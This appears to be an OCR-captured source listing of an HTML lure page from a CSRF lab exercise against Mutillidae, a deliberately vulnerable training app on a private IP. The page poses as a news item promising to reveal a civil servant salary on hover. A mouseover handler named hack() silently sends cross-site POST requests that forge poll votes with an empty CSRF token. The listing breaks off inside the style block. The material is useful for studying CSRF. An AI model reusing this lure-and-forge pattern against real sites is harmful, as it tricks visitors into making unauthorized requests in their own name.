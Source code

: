 Code

```
  <html>
  
  <body class="hoverEffect">
  
  <div class="wrapper">
  
  <div class="buttonWrapper">
  
  <button type="submit" onclick="returnHome()">Return to Home Page</button>
  
  </div>
  
  <img src="./web/news3.jpeg" alt="news-image" />
  
  <h1 class="title">RAISE NEWS!</h1>
  
  <div class="newsDetail">The government announced the civil servant salary as&nbsp; <span id="hoverToSee" class="hoverToSee">HOVER TO SEE SALARY</span>
  
  <span id="salary" class="salary">22000 TL.</span>
  
  </div>
  
  </div>
  
  <script>
  
  const hiddenPart = document.getElementById('hoverToSee')
  
  const salaryPart = document.getElementById('salaryPart')
  
  hiddenPart.addEventListener("mouseover", (event) => { hiddenPart.style.display = "none"; salary.style.display = "block";
  
  hack();
  
  });
  
  function hack() { fetch("http://192.168.1.41/mutillidae/index.php?page=user-poll.php&csrf-token=&" + "choice=nmap&initials=hackedtest&user-poll-php-submit-button=Submit+Vote",
  
  {
  
  method: "POST",
  
  }); fetch("http://192.168.1.41/mutillidae/index.php?page=user-poll.php&csrf-token=&" + "choice=tcpdump&initials=hackedtest&user-poll-php-submit-button=Submit+Vote",
  
  );
  
  }
  
  const returnHome = () => { location.assign('http://localhost:3000/index.php'); };
  
  </script>
  
  <style>
  
  .hoverToSee { text-decoration: underline; font-style: italic; font-weight: 700;
  
  }
```
